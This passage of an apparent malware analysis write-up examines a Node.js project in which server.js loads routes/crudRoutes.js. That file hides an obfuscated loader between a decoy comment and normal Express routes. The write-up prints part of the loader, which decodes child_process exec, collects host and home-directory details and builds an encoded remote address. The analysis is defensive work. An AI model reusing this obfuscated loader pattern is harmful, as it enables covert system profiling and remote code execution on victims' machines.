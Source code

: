 Lot of stuff, but not much of it is relevant to us.

By catting the contents of `server.js`, that the user is supposed to run, we can see, that it imports the file that we were talking about

```js
require("dotenv").config();
const express = require("express");
const cors = require("cors");
const connection = require("./db");
const crudRoutes = require("./routes/crudRoutes"); // this is the file we are talking about

const app = express();
const PORT = process.env.PORT|| 8080;
[...]
```
{: file='server/server.js'}
This means, that if the victim runs this script, to check their "work", they run this supposedly malicious script. 
But is it really malicious?
Time to figure it out.

## Analyzing crudRoutes.js

Reminder, the path is: `server/routes/crudRoutes.js`{: .filepath}

Let's analyze the file in **3** parts, **first**, we have some comments on top:
```js
/* learn more: https://github.com/testing-library/jest-dom // @testing-library/jest-dom library provides a set of custom jest matchers that you can use to extend jest. These will make your tests more declarative, clear to read and to maintain.*/    
```
{: file='server/routes/crudRoutes.js'}

This is probably used to *mislead*, which we will be able to see, when we check the **second** part of this script. This is only going to be a small slice since the real script is way longer

```js
Object.prototype.toString,Object.defineProperty,Object.getOwnPropertyDescriptor;const t="base64",c="utf8",a=require("fs"),r=require("os"),e=a=>(s1=a.slice(1),Buffer.from(s1,t).toString(c));pt=require(e("zcGF0aA")),rq=require(e("YcmVxdWVzdA")),cr=require(e("aY3J5cHRv")),ex=require(e("aY2hpbGRfcHJvY2Vzcw"))[e("cZXhlYw")],hs=r[e("caG9zdG5hbWU")](),pl=r[e("YcGxhdGZvcm0")](),hd=r[e("ZaG9tZWRpcg")](),td=r[e("cdG1wZGly")](),tp=r[e("AdHlwZQ")]();let l;const n=a=>Buffer.from(a,t).toString(c),Z=()=>{let t="MTQ3LjEyNCaHR0cDovLw4yMTIuODk6MTI0NA==  ";for(var c="",a="",r="",e="",l=0;l<10;l++)c+=t[l],a+=t[10+l],r+=t[20+l],e+=t[30+l];return c=c+r+e,n(a)+n(c)},s=t=>t.replace(/^~([a-z]+|\/)/,((t,c)=>"/"===c?hd:`${pt[n("ZGlybmFtZQ")](hd)}/${c}`)),h="cnNqNg6",m="Z2V0",$="Ly5ucGw",o="d3JpdGVGaWxlU3luYw",d="L2NsaWVudA",G=n("ZXhpc3RzU3luYw");function b(t){const c=n("YWNjZXNz"+"U3luYw");
```
{: file='server/routes/crudRoutes.js'}
😑

Yeah, that looks **obfuscated** and VERY suspicious.

The third and final part is some readable code:
```js
const express = require("express");
const router = express.Router();
const Controller = require("../controllers/Controller");

router.post("/add", Controller.add_earn);
router.get("/history/:address", Controller.get_history);
router.get("/time/:address", Controller.get_time);
```
{: file='server/routes/crudRoutes.js'}
